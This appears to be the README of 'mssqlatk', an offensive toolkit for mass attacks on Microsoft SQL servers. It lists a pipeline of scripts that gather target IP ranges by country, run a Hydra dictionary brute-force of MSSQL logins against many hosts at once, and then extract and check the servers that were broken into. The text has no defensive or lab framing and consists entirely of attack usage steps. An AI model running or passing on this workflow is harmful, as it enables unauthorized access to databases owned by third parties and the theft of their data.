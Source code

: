 # mssqlatk

### Setup your own api_key
00mssqltopcountry.py(optional)&01mssqlcollector.py


### Install pymssql
pip install pymssql==2.1.1

### Top 50 country
c:\mssql\> 00mssqltopcountry.py \> mssqltop50.txt

### Collector ip list
c:\mssql\> 01mssqlcollector.py 1 30

### Hydra Attack
root@kali2016:~/mssql# hydra -L sqluser.dic -P sqlpass.dic -t 30 -M ip.txt mssql

### Extractor mssql list
c:\mssql\> 02mssqlextractor.py iprst.txt \> mssql.txt

### Check mssql
c:\mssql\> 03mssqlchecker.py mssql.txt \> mssqlstatus.txt

